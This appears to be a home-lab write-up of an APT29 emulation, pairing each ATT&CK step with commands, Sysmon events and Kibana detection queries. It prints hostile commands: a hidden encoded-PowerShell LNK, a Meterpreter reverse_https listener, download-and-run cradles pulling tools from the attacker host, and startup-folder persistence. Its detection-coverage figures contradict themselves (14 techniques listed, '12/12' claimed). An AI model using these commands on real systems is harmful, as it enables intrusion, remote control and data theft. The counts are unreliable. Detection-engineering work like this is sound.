# APT29 Attack Timeline — Cozy Bear

> This timeline documents the real sequence of techniques executed during the APT29 emulation in this lab. Each phase represents a step in the attack cycle with the corresponding MITRE ATT&CK TTP, the command executed, the Windows event generated and the evidence captured by the SIEM.

---

## Attack Overview

```
Phase 1         Phase 2         Phase 3         Phase 4         Phase 5
Initial    -->  Execution  -->  Defense    -->  Discovery  -->  Collection
Access          + C2            Evasion                         + Persistence
T1566.002       T1059.001       T1027           T1087           T1560
T1204.002       T1218.011       T1071.001       T1069           T1547.009
                                                T1082           T1105
                                                T1057
                                                T1012
```

The attack starts with a malicious link sent to the victim that downloads an LNK file. Opening the file triggers PowerShell to execute an obfuscated payload that establishes a Meterpreter session with Kali-Attack. From there the attacker performs environment reconnaissance, compresses sensitive data and installs persistence in the Startup folder to survive reboots.

---

## Phase 1 — Initial Access

### T1566.002 — Spearphishing Link

The attacker sends a malicious link that forces the download of an LNK file through Microsoft Edge. The victim sees an apparently legitimate file that contains a hidden PowerShell command.

**Command executed on Kali:**
```bash
./auto-lnk.sh
python3 -m http.server 8080
```

**Event generated:**
```
EventID: 11 (Sysmon FileCreate)
TargetFilename: C:\Users\Administrator\Downloads\ds7002.lnk
Image: msedge.exe
```

**SIEM Detection:**
```
data.win.eventdata.commandLine:*msedge* OR data.win.eventdata.image:*msedge*
```

**Evidence:**



---

### T1204.002 — Malicious File (LNK)

The victim clicks the LNK file. Windows executes the hidden command inside the shortcut which invokes PowerShell with evasion parameters.

**LNK content:**
```
Target: C:\Windows\System32\cmd.exe
Arguments: /c powershell.exe -ep bypass -w hidden -e <BASE64_PAYLOAD>
```

**Event generated:**
```
EventID: 1 (Sysmon ProcessCreate)
Image: C:\Windows\System32\cmd.exe
CommandLine: /c powershell.exe -ep bypass -w hidden -e <encoded>
ParentImage: explorer.exe
```

**Evidence:**



---

## Phase 2 — Execution and Command and Control

### T1059.001 — PowerShell Execution

PowerShell executes the payload that establishes the reverse connection with the Metasploit listener on Kali-Attack. The Meterpreter session becomes active as `LAB\Administrator`.

**Listener on Kali:**
```bash
msfconsole -q -x "use exploit/multi/handler; \
  set PAYLOAD windows/x64/meterpreter/reverse_https; \
  set LHOST 192.168.10.102; \
  set LPORT 443; \
  run -j"
```

**Event generated:**
```
EventID: 4103 (PowerShell Module Logging)
EventID: 4104 (PowerShell Script Block Logging)
ScriptBlockText: IEX (New-Object Net.WebClient).DownloadString(...)
```

**Evidence:**



---

### T1071.001 — C2 via HTTPS port 443

Communication between Meterpreter and Kali uses HTTPS on port 443 to blend in with legitimate traffic and evade firewalls that block non-standard ports.

**Event generated:**
```
EventID: 3 (Sysmon NetworkConnect)
DestinationPort: 443
Image: powershell.exe
DestinationIp: 192.168.10.102
```

---

### T1027 — Obfuscation

The payload is Base64 encoded with the `-EncodedCommand` parameter and uses `-ExecutionPolicy Bypass` to circumvent PowerShell execution policies.

**Command:**
```powershell
powershell.exe -ep bypass -w hidden -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQA...
```

**Event generated:**
```
EventID: 4104 (Script Block Logging)
ScriptBlockText: contains the decoded payload
```

**SIEM Detection:**
```
data.win.eventdata.commandLine:*hidden* OR
data.win.eventdata.commandLine:*encodedcommand* OR
data.win.eventdata.commandLine:*-enc*
```

**Evidence:**



---

### T1218.011 — Rundll32

Rundll32 is used to execute malicious code in a way that appears to be a legitimate system operation.

**Command:**
```cmd
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";...
```

**Event generated:**
```
EventID: 1 (Sysmon ProcessCreate)
Image: C:\Windows\System32\rundll32.exe
```

**Evidence:**



---

## Phase 3 — Discovery

With the Meterpreter session active, the attacker performs environment reconnaissance to understand where they are, who the users are and what processes are running.

### T1087 — Account Discovery

```powershell
net user
net user /domain
```

**Users discovered in the lab:**
```
r.anderson    m.torres    s.connor
svc.backup    madAdmin    Administrator
```

**Evidence:**



---

### T1069 — Permission Groups Discovery

```powershell
net group "Domain Admins" /domain
```

**Evidence:**



---

### T1082 — System Information Discovery

```powershell
systeminfo
```

**Relevant output:**
```
OS Name: Microsoft Windows Server 2022
Domain: lab.local
Logon Server: \\WIN-DC01
```

**Evidence:**



---

### T1057 — Process Discovery

```powershell
tasklist
```

**Evidence:**



---

### T1012 — Registry Query

```powershell
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion
```

**Evidence:**



---

## Phase 4 — Collection and Persistence

### T1560 — Archive Collected Data

```powershell
"C:\Program Files\7-Zip\7z.exe" a -tzip C:\Users\Public\data.zip C:\Users\Administrator\Documents\*
```

**Evidence:**



---

### T1105 — Ingress Tool Transfer

```powershell
Invoke-WebRequest -Uri "http://192.168.10.102:8080/apt29-tool.exe" -OutFile "C:\Users\Public\apt29-tool.exe"
```

**Evidence:**



---

### T1547.009 — Startup Folder Persistence

```powershell
# Extract zip
Expand-Archive -Path "C:\Users\Administrator\Downloads\ds7002.zip" -DestinationPath "C:\Users\Administrator\Downloads\ds7002\" -Force

# Copy LNK to Startup
Copy-Item "C:\Users\Administrator\Downloads\ds7002\ds7002.lnk" "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"
```

**Evidence:**



---

## Emulation Results

| TTP | Technique | Phase | Severity | Detected |
|---|---|---|---|---|
| T1566.002 | Spearphishing Link | Initial Access | High | ✅ |
| T1204.002 | Malicious File LNK | Initial Access | High | ✅ |
| T1059.001 | PowerShell Execution | Execution | High | ✅ |
| T1071.001 | C2 HTTPS | Command and Control | High | ✅ |
| T1027 | Obfuscation | Defense Evasion | High | ✅ |
| T1218.011 | Rundll32 | Defense Evasion | High | ✅ |
| T1087 | Account Discovery | Discovery | Medium | ✅ |
| T1069 | Permission Groups | Discovery | Medium | ✅ |
| T1082 | System Info | Discovery | Medium | ✅ |
| T1057 | Process Discovery | Discovery | Medium | ✅ |
| T1012 | Registry Query | Discovery | Medium | ✅ |
| T1560 | Archive Data | Collection | High | ✅ |
| T1105 | Tool Transfer | Command and Control | High | ✅ |
| T1547.009 | Startup Persistence | Persistence | High | ✅ |

**Total coverage: 12/12 TTPs detected — 100%**

---

## SIEM Evidence — Kibana

This section aggregates the global evidence captured in Kibana after the full attack execution.

**Security Alerts — 1k alerts generated**

> Add screenshot: Security -> Alerts in Kibana showing 188 alerts with high and medium severity



**Detection Rules — 24 active rules**

> Add screenshot: Security -> Rules showing the 12 APT29 rules with Succeeded status



**APT29 SOC Dashboard**

> Add screenshot: full dashboard with gauge, bar chart, timeline, treemap and table



**Alert detail — T1059.001 example**

> Add screenshot: alert opened in Kibana showing all fields: timestamp, rule name, host, commandLine, severity



---

## MITRE ATT&CK References

- [APT29 Group Page](https://attack.mitre.org/groups/G0016/)
- [T1566.002 Spearphishing Link](https://attack.mitre.org/techniques/T1566/002/)
- [T1059.001 PowerShell](https://attack.mitre.org/techniques/T1059/001/)
- [T1027 Obfuscated Files](https://attack.mitre.org/techniques/T1027/)
- [T1218.011 Rundll32](https://attack.mitre.org/techniques/T1218/011/)
- [T1087 Account Discovery](https://attack.mitre.org/techniques/T1087/)
- [T1560 Archive Collected Data](https://attack.mitre.org/techniques/T1560/)
- [T1547.009 Shortcut Modification](https://attack.mitre.org/techniques/T1547/009/)
- [T1105 Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
